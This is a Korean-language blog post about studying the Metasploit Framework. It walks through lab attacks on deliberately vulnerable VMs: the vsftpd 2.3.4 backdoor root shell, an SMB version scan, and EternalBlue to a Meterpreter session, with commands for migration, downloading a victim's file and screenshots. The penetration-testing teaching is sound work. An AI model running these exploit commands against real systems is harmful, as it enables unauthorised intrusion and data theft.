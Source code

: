 ```yaml
---
layout: post
title: "Metasploit Framework 공부"
date: 2025-09-07 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. 개요

Metasploit Framework(MSF)는 취약점 연구, 익스플로잇 코드 개발 및 실행을 위한 오픈소스 플랫폼이다. 정보 수집 · 취약점 스캔 · 익스플로잇 · 페이로드 실행 등 침투 테스트의 전 과정을 체계적으로 수행할 수 있는 환경을 제공한다.

개별 도구를 따로 사용하는 대신 `msfconsole`이라는 통합된 인터페이스 안에서 다양한 모듈을 조합하여 공격을 수행할 수 있다는 것이 가장 큰 특징이다.

---

### 2. 핵심 구성 요소

*   **Exploits (익스플로잇):** 취약점을 직접 공격하는 코드이다. 운영체제 · 서비스 · 애플리케이션 등 다양한 대상의 취약점을 공격하는 수천 개의 익스플로잇 모듈이 내장되어 있다.
*   **Payloads (페이로드):** 익스플로잇이 성공한 후 대상 시스템에서 실행되는 코드이다. 가장 대표적인 페이로드가 리버스 쉘을 연결하는 `meterpreter`나 `shell`이다.
*   **Auxiliary (보조 모듈):** 직접적인 공격 외에 정보 수집 · 스캐닝 · 퍼징 등 보조적인 작업을 수행하는 모듈이다. 포트 스캐너나 특정 서비스의 버전 정보를 확인하는 용도로도 사용된다.

---

### 3. 기본 사용 흐름

`msfconsole` 내에서의 작업은 일반적으로 다음의 흐름을 따른다.

1.  **`search [키워드]`**: 공격할 서비스나 취약점과 관련된 모듈을 검색한다.
2.  **`use [모듈 이름]`**: 사용할 익스플로잇이나 보조 모듈을 선택한다.
3.  **`show options`**: 선택한 모듈에 설정해야 할 옵션들을 확인한다. `RHOSTS`, `LHOST`
4.  **`set [옵션 이름] [값]`**: `RHOSTS`(대상 IP) `LHOST`(공격자 IP) 등 필요한 옵션을 설정한다.
5.  **`run` 또는 `exploit`**: 설정된 값으로 모듈을 실행한다.

---

### 4. 사용 예시: vsftpd 백도어 공격

`vsftpd 2.3.4`는 2011년에 공개된 가짜 백도어가 포함된 버전이다.  
이 백도어는 사용자 이름에 `:)`를 포함하면, 서버가 **6200번 포트에서 root 권한의 백도어 쉘**을 실행한다.

> **주의**: 현대 리눅스 배포판(예: Ubuntu 22.04)의 `apt`나 공식 Docker 이미지에는 이 백도어가 **포함되지 않는다**.  
> 따라서 이 공격을 재현하려면 **Metasploitable 2**와 같은 의도적으로 취약한 가상머신이 필요하다.

#### ***공격 절차***

1. **Metasploitable 2 실행**  
   [공식 사이트](https://sourceforge.net/projects/metasploitable/)에서 다운로드한 후 VirtualBox 또는 VMware로 실행한다.  
   기본 IP는 `192.168.56.101` 등 내부 네트워크 주소이다.

2. **Metasploit에서 모듈 실행**  
   ```bash
   # 1. msfconsole 실행
   msfconsole

   # 2. 백도어 익스플로잇 모듈 선택
   msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

   # 3. 대상 IP 설정
   msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.101

   # 4. 공격 실행
   msf6 exploit(...) > exploit
   ```

3. ***결과 확인***
   공격이 성공하면 다음과 같은 메시지가 출력된다:  
   ```
   [*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.101:6200)
   ```  
   이후 `whoami`를 입력하면 `root`가 반환되며, 시스템 제어권을 획득한 것을 확인할 수 있다.

---

### 5. 사용 예시 2: 보조 모듈을 이용한 정보 수집 (SMB 스캔)

Metasploit은 직접적인 공격 외에도 `Auxiliary` 모듈을 통해 다양한 정보 수집 활동을 수행할 수 있다.  
예를 들어 `smb_version` 모듈은 대상 서버의 SMB(윈도우 파일 공유) 서비스 버전을 확인하는 데 사용된다.

```bash
# 1. SMB 버전 스캔 모듈 검색 및 선택
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.56.101

# 3. 스캐너 실행
msf6 auxiliary(...) > run
```

실행 결과로 다음 정보가 출력된다:  
```
[+] 192.168.56.101:445    - Host is running Windows 2008 R2 SP1 (build:7601) (name:WIN-MACHINE) (domain:WORKGROUP)
```  
이 정보는 추후 해당 OS에 맞는 익스플로잇(예: MS17-010)을 선택하는 데 활용된다.

---

### 6. 사용 예시 3: Meterpreter를 이용한 시스템 제어

Metasploit의 가장 강력한 기능은 **Meterpreter** 페이로드에 있다. Meterpreter는 일반 쉘과 달리 메모리 상에서만 동작하며, 파일 시스템 정보 수집 · 프로세스 제어 · 권한 상승 등 침투 테스트에 특화된 다양한 기능을 제공한다.

이 예시는 윈도우 시스템의 SMB 취약점(MS17-010, 이터널블루)을 공격하여 Meterpreter 세션을 획득하고 시스템을 제어하는 과정을 보여준다.

#### ***공격 시나리오: MS17-010 (EternalBlue)***

Metasploitable 2는 Windows 머신이 아니지만,  
**Metasploitable 3 **(Windows 기반)을 사용하면 다음과 같은 공격이 가능하다.

1. **모듈 설정**  
   ```bash
   # 이터널블루 익스플로잇 모듈 선택
   msf6 > use exploit/windows/smb/ms17_010_eternalblue

   # 옵션 확인 및 대상 IP(RHOSTS), 공격자 IP(LHOST) 설정
   msf6 exploit(...) > set RHOSTS 192.168.56.102
   msf6 exploit(...) > set LHOST 192.168.56.1

   # 공격 실행
   msf6 exploit(...) > exploit
   ```

#### ***Meterpreter 세션 활용***
공격에 성공하면 `meterpreter >` 라는 새로운 프롬프트가 나타난다. 여기서는 일반 쉘 명령어와 다른 Meterpreter 전용 명령어를 사용할 수 있다.

*   **시스템 정보 확인:**
    ```meterpreter
    sysinfo     # 대상 시스템의 운영체제, 아키텍처 등 기본 정보 확인
    getuid      # 현재 세션이 어떤 사용자 권한으로 실행 중인지 확인 (예: NT AUTHORITY\SYSTEM)
    ```
*   **프로세스 제어:**
    ```meterpreter
    ps          # 현재 실행 중인 프로세스 목록 확인
    migrate [PID] # Meterpreter 세션을 다른 안정적인 프로세스(예: explorer.exe)로 이전하여 연결 지속성을 높임
    ```
*   **파일 시스템 및 정보 탈취:**
    ```meterpreter
    ls          # 현재 디렉터리의 파일 목록 확인
    download C:\\Users\\user\\Desktop\\secret.txt .  # 대상 PC의 파일을 공격자 PC로 다운로드
    screenshot  # 대상 PC의 현재 화면을 스크린샷으로 캡처
    ```

이처럼 Meterpreter는 단순한 원격 제어를 넘어 시스템을 분석하고 정보를 탈취하며 공격의 흔적을 숨기는 등 고도화된 침투 테스트 작업을 효율적으로 수행할 수 있는 환경을 제공한다.

<hr class="short-rule">